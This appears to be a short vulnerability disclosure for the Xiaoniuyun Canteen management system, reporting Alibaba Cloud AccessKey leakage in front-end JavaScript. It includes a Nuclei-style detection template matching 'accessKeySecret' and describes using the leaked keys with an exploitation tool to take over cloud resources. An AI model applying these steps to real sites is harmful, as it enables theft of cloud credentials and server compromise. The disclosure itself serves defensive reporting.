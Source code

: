 # Canteen
Recurrence of vulnerabilities
There is a problem with Alibaba Cloud OSS AccessKey leakage in the Xiaoniuyun Canteen Smart Canteen Management System. Attackers can obtain sensitive information and control cloud servers by obtaining the AccessKey

Affected version:<=1120
Case reproduction As shown, this is a test site

![image](https://github.com/dubin12345/Canteen/assets/144758348/bd2b97b1-6dec-4cfd-979a-df1d0a18c19f)


View the front-end code of the website and find multiple JSs

![image](https://github.com/dubin12345/Canteen/assets/144758348/ab462f66-a804-4f7e-b032-c9d425c50754)


Splice the front-end JS fields and wait for multiple front-end static page URLs

![image](https://github.com/dubin12345/Canteen/assets/144758348/0bc4f9dd-d23d-4465-94be-e8a145482f41)


Detect POC：

id: xiaoniuali-key
 
info:
  name: xiaoniuali-key
  author: dubin
  severity: critical
  tags: xiaoniu
 
requests:
  - method: GET
    path:
      - "{{BaseURL}}"

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200

      - type: word
        words:
          - "accessKeySecret"

    ![image](https://github.com/dubin12345/Canteen/assets/144758348/9d178ced-527d-4f03-978e-fc094a6069b3)

    
    Accessing the vulnerable URL and finding the accessKeyId and accessKeySecret
    
   ![image](https://github.com/dubin12345/Canteen/assets/144758348/e6e0a1d8-9098-4871-81a1-f8f1bb0968d3)

    
    Use Alibaba Cloud Key Leakage Utilization Tool to Obtain Permissions
    
   ![image](https://github.com/dubin12345/Canteen/assets/144758348/c17e8424-ab1c-4b19-81c7-ef90c9ef366b)

    








